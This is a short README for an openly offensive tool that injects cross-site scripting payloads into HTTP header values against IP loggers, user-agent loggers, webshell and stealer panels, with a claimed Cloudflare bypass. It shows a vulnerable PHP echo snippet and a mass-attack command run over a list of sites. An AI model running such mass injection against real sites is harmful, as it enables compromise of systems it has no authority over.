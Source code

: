 ### xss.codes-Tool
https://xss.codes Http Header XSS Attacker

### What does this do?

Allows you to send XSS payloads to HTTP Header values (with Cloudflare Bypass)

For use ; You must have an https://xss.codes account!


You can Exploiting The : 

*IP Loggers

*Useragent Loggers

*Webshell Log Panels

*Malware Stealer Panels


### Example Vulnerable PHP code:

```
<?

$sakso = $_SERVER["REMOTE_ADRR"];

echo "ip logged :".$sakso

?>
```

### Usage




### Mass : 

```
python mass.py -l sitelist.txt -u your XSS.CODES User Domainname
```
